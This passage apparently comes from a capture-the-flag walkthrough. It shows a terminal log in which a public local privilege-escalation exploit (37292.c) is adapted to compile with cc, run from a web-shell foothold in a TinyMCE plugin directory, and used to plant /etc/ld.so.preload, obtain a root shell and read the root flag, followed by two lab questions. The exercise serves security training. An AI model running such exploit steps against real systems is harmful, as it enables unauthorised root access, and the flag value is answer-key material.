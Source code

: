 ```
config.php
css
editor_plugin.js
editor_plugin_src.js
img
includes
rpc.php
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ which cc
which cc
/usr/bin/cc
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ sed -i "s/gcc/cc/g" 37292.c
<.9/plugins/spellchecker$ sed -i "s/gcc/cc/g" 37292.            c            
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ cc 37292.c -o exploit
cc 37292.c -o exploit
37292.c:94:1: warning: control may reach end of non-void function [-Wreturn-type]
}
^
37292.c:106:12: warning: implicit declaration of function 'unshare' is invalid in C99 [-Wimplicit-function-declaration]
        if(unshare(CLONE_NEWUSER) != 0)
           ^
37292.c:111:17: warning: implicit declaration of function 'clone' is invalid in C99 [-Wimplicit-function-declaration]
                clone(child_exec, child_stack + (1024*1024), clone_flags, NULL);
                ^
37292.c:117:13: warning: implicit declaration of function 'waitpid' is invalid in C99 [-Wimplicit-function-declaration]
            waitpid(pid, &status, 0);
            ^
37292.c:127:5: warning: implicit declaration of function 'wait' is invalid in C99 [-Wimplicit-function-declaration]
    wait(NULL);
    ^
5 warnings generated.
<ditor/tinymce/tiny_mce/3.4.9/plugins/spellchecker$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# cat /root/.flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

#
```

4. Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key! What development tools are installed on the machine?
5. What is the root flag?
